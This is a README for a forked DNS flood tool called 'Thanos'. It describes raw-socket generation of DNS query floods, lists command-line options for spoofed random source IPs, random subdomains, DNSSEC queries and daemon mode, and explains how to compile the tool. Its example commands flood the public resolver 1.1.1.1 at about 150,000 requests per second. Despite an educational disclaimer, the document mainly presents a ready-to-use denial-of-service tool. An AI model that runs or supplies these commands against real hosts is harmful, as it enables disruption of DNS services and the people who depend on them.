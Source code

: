 # dns-flood
This is a fork of https://github.com/hawell/dns-flood

This is a modified version of DNS-Flood tool codename Thanos. The code should not be used in the wild for DOS but for educational, lab testing and verification purposes only.

Use raw sockets to generate DNS flood.

In contrast to fork version it provides:
 - Support additional query (RR) Type - ANY, RRSIG, DNSKEY, HTTPS, SVCB (HTTPS and SVCB still in IETF drafts but already seen deployment)



## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send  
	-d, --duration		run for at most this many seconds   
	-r, --random-src	fake random source IP
	-R, --random-sub	prefix with random subdomain names
	-S, --dnssec		make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help		print this message   
```
Example:
```bash
sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -d 1
sent 152648 DNS requests in 1.000000 sec.

sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -n 30
sent 30 DNS requests in 0.000000 sec.
```

## How to Install
1. Download C file or clone
2. Compile using clang or gcc (code has been compiled using both clang and gcc for linux and OSX and works fine)
3. Use with care


## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood.

Original Here: https://code.google.com/p/dns-flood/

## Disclaimer
The forked code enhancement was solely developed in my personal capacity and has no associations with my employers past or present.
